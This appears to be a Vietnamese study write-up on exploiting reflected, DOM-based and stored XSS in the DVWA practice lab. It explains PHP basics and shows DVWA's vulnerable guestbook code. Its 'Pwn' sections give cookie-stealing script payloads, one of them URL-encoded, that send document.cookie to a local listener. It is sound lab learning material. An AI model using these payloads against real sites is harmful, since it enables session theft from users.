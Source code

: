 # Install DVWA on Ubuntu
[Kali](https://www.youtube.com/watch?v=GmWQ1VIjd2U&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&ab_channel=CryptoCat)
[Ubuntu](https://www.youtube.com/watch?v=kMUdmmTL7OM&ab_channel=gp_sec)
> Install PHP & Apache2 & mysql
> www-data user

# XSS Reflected
## What?
Lợi dụng lỗ hổng từ server hoặc client, hacker sẽ gửi link url chứa mã độc cho user. Khi user nhập link url chứa <br>
mã độc, hacker có thể tận dụng lấy session id của user.

## How?
### Low level
![image](https://github.com/user-attachments/assets/fdf93f3b-71f3-4570-be23-e80618d17bc5)

*Đầu tiên khi vào OWASP ta sẽ view source php*

> header() in php

1. Redirect to another page. <br>
```php
<?php
header("Location: https://www.example.com");  
exit; // Prevent further code execution 
?>
```
Nó sẽ gửi  request 'chuyển tiếp' đến server. Yêu cầu server phải đưa cho nó cái link trên. Dùng exit để đảm bảo ko <br>
có câu lệnh nào chèn thêm. <br>
2. Tránh caching
  
```php
<?php
header("Cache-Control: no-cache, must-revalidate");
header("Expires: Sat, 26 Jul 1997 05:00:00 GMT");
?>  
```
> Caching là gì?

Lưu lại những cái hoạt động thường xuyên của user để tăng tốc độ truy cập web. Cải thiện performance, giảm load on <br>
backend sys, database...

Ví dụ ở trên cho ta biết đó là loại Browser-caching, nó sẽ gia hạn cho resources được phép tồn tại bao lâu. Ngoài ra, <br>
mik còn 1 số loại caching như: Server side caching, CDN caching, Application Level caching... Bên cạnh đó đi kèm đó chính là <br>
những stragegy để caching (sẽ tìm hiểu sau)

> $GET

Siêu biến toàn cục (super global variable) dùng để lấy dữ liệu đc gửi qua URL thông qua phương thức GET

Example:
```http://example.com/index.php?name=Hung&age=30```

Ở đây mình sẽ sử dụng $GET để lấy name và age <br>

```php
<?php
$name = $_GET['name']; // "Hung"
$age = $_GET['age'];   // "30"

echo "Name: " . $name . "<br>";
echo "Age: " . $age;
?>
```

> array_key_exists(key, var)

Kiểm tra có tồn tại khóa *key* ở trong dãy *var* không?

## Pwn Time
1. Tạo 1 local host port 8000 = python3

![image](https://github.com/user-attachments/assets/340be4e7-2977-4853-b900-be0bea77fe46)

2. Mik sẽ chạy javascript trong input box, lúc đó biến 'name' = malicious code.
```
<script>window.location='http://127.0.0.1:8000/?cookie=' + document.cookie</script>
```
3. Kết quả

![image](https://github.com/user-attachments/assets/206feb0f-cedc-40aa-9c1a-80c09e8c0baa)

*Session id của user sẽ được gửi về terminal của attacker*

# XSS DOM
## Client / Server side
## Pwned Time
![image](https://github.com/user-attachments/assets/2b6ebd0c-6c76-4903-9305-b13b16b73757)
*Mình sẽ khai thác XSS trực tiếp trên client-side khác với XSS reflected khai thác qua server-side*

![image](https://github.com/user-attachments/assets/b5823528-483f-4285-a890-82c4ebb2de35)
*Thử nhập 1 lệnh alert*
--> Kết quả:
![image](https://github.com/user-attachments/assets/752634e3-7aba-43c7-945d-07c6b05c5136)

Pwn time:
1. Tạo 1 local server qua python (port 8000)
![image](https://github.com/user-attachments/assets/6a79af35-58fe-4de8-b9d7-77fb0ad444a4)

2. Tạo payload độc, lừa user nhập vào
Payload gốc:
```
127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<script>window.location='http://127.0.0.1:8000/?cookie=' + document.cookie</script>
```
![image](https://github.com/user-attachments/assets/ee01b5a4-71a4-48cf-b0db-9b04016eaefc)
*Nó sẽ ra 1 trang ntn*

Encode payload:
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English%3Cscript%3Ewindow.location%3D%27http%3A%2F%2F127.0.0.1%3A8000%2F%3Fcookie%3Ddocument.cookie%3C%2Fscript%3E
```
3. Kết quả
Session id của người dùng hiện trong cửa sổ server của attacker
 ![image](https://github.com/user-attachments/assets/71026905-c57d-471c-81db-891455ac4e22)

# XSS Stored
## Image
![image](https://github.com/user-attachments/assets/c082869d-0917-47e3-8969-bf88766aff00)

## Code backend
```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```
*Bảo vệ phần message và name khỏi sql injections. Sau đó thêm vào bảng sql 2 elements message và name*

> $_POST

Tương tự như $_GET, là 1 super global variable, nó sẽ collect những data được gửi đi bởi HTTP POST method <br>
Những data này có thể collect từ form fields: input, checkbox, radio, buttons,...
> trim()

Xóa đi những khoảng trống ở phần đầu.
> stripslashes()

Xóa đi back_slash (\) from a string. Ở trong những bản cũ của php, nó sẽ tự động thêm back slash vào những special character: ', " <br>
Việc của mik cần là xóa những cái đó đi để clean string.

> $_GLOBALS

include POST and GET
> isset(var)

1 Biến để check xem var đc tạo chưa? Not null -> true. Null -> false

## Pwn
![image](https://github.com/user-attachments/assets/3d4f5a68-756a-42f5-a3e9-d4191d4d92c1)
*Chỉnh max size = 250 và nhập malicious code*

-->kết quả:
![image](https://github.com/user-attachments/assets/4af0f7d5-9d17-4c01-94de-058e499fab6d)
*Mỗi lần load lại nó sẽ tự động ra cái trang này*





